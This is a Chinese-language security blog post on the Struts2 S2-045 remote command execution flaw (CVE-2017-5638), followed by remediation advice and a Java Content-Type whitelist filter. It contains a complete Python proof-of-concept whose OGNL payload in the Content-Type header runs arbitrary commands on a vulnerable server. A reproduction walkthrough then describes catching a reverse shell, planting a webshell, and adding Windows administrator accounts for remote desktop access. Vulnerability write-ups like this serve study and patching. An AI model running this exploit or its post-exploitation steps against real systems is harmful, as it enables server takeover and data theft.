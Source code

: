 ```yaml
---
title: Struts2远程命令执行漏洞
categories:
  - 命令执行
tags:
  - Struts2
  - 命令执行漏洞
toc: true 文章目录
author: BlBana
date: 2017-03-08 19:00:13
description:
comments:
original:
permalink:
---
```

## S2-045 Struts2远程命令执行漏洞

### 0x01 stucts
Struts是Apache基金会的一个开源项目，Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的Model-View-Controller(MVC)设计模式的应用框架，是MVC经典设计模式中的一个经典产品。
<!-- more -->
### 0x02 影响范围
Struts 2.3.5 – Struts 2.3.31 Struts 2.5 – Struts 2.5.10

### 0x03 不受影响版本
Struts 2.3.32 Struts 2.5.10.1

### 0x04 漏洞危害
在default.properties文件中，struts.multipart.parser的值有两个选择，分别是jakarta和pell。在Strucs 2框架中jakarta解析器是框架的标准组成部分。默认这个解析器是启动的。
由于该组件解析上传文件的Content-Type头时，异常处理函数没有正确的处理用户输入的错误信息。导致可以远程发送恶意的上传数据包，利用漏洞可以执行任意的命令。
> 漏洞编号：CVE-2017-5638
> 漏洞名称：S2-045：Struts 2远程执行代码漏洞
> 漏洞影响：基于JakartaMultipart解析器执行文件上传时可能的RCE

### 0x05 PoC漏洞检测
```python
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
def poc():
    if len(sys.argv) < 3:
        print '''Usage: poc.py http://172.16.12.2/example/HelloWorld.action "command"'''
        sys.exit()
    register_openers()
    datagen, header = multipart_encode({"image": open("tmp.txt", "w+")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"+str(sys.argv[2])+"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
poc()
```
**通过此PoC确认目标是否存在此漏洞**，此外还可以通过Seebug上的照妖镜来进行在线的检测，可以判断目标机器是否存在漏洞。

### 0x06 漏洞复现
我在本机的ubuntu上复现了此漏洞，配置环境如下：
1. Tomcat5
2. struts 2.3.31

1. 部署的方式比较容易，先安装好Tomcat的服务器，访问http://localhost:8080进行检测环境是否搭建成功。（需在服务器上配置好Java环境，参考连接：[Tomcat环境部署](http://drops.blbana.cc/2016/10/24/e9-80-9a-e8-bf-87tomcat-e8-8e-b7-e5-8f-96webshell/%22Tomcat%E7%8E%AF%E5%A2%83%E9%83%A8%E7%BD%B2%22)
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/1.png)

2. Tomcat的环境搭建完成了以后，可以进入struts2的官网下载存在漏洞的应用程序版本，利用刚才部署环境里的方法将struts2的war包导入到Tomcat的环境当中，访问搭建好的环境如下所示：
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/2.png)

3. 环境搭建完成以后，可以利用上面的PoC对其进行一个测试的操作
> 注意：这个脚本需要安装poster的python类库才能正常运行
我是在windows环境下进行测试的，直接运行python的脚本，填写好目标的地址，可以拿到一个执行命令的权限
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/3.png)

4. 接下来我们可以在公网的服务器上监听一个端口，然后利用命令执行反弹一个shell给服务器，直接获取服务器的权限
![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/4.png)

![enter image description here](http://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/struts2/5.png)

5. 除此之外，当我们拿到了较高的权限的时候，还可以在我们的服务器上放一个webshell，然后通过执行命令将服务器上的webshell下载到目标机器上，这里注意的是需要**知道网站的真实路径**（*通过locate *.jsp来定位jsp文件的位置*），之后当获得了webshell的时候就可以得到文件管理，上传等权限了。

6. 对于windows服务器可以直接执行创建用户和添加管理员的两条命令，如果3389端口打开，可以直接利用创建的用户打开远程桌面。

### 0x07漏洞修复
1. 升级版本：正在使用Jakarta文件上传插件的可以升级版本到struts2的安全版本
2. 过滤验证：通过判断Content-Type是否为白名单，限制非法的攻击
加固代码：

```java
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
 
 
public class SecurityFilter extends HttpServlet implements Filter {
 
        /**
         * 
         */
        private static final long serialVersionUID = 1L;
         
         
        public final String www_url_encode= "application/x-www-form-urlencoded";
        public final String mul_data= "multipart/form-data ";
        public final String txt_pla= "text/plain";
 
        public void doFilter(ServletRequest arg0, ServletResponse arg1,
                        FilterChain arg2) throws IOException, ServletException {
 
                HttpServletRequest request = (HttpServletRequest) arg0;
                HttpServletResponse response = (HttpServletResponse) arg1;
                 
                String contenType=request.getHeader("conTent-type");
                 
                if(contenType!=null&&!contenType.equals("")&&!contenType.equalsIgnoreCase(www_url_encode)&&!contenType.equalsIgnoreCase(mul_data)&&!contenType.equalsIgnoreCase(txt_pla)){
                         
                        response.setContentType("text/html;charset=UTF-8");
                        response.getWriter().write("非法请求Content-Type！");
                        return;
                }
                arg2.doFilter(request, response);
        }
 
        public void init(FilterConfig arg0) throws ServletException {
 
        }
 
}
```
编译成“SecurityFilter.class”复制到应用的WEB-INF/classes目录下，配置web.xml文件，使该文件生效

3. 还有一种方法就是进入将默认的Jakarta模块改为使用Pell模块


---
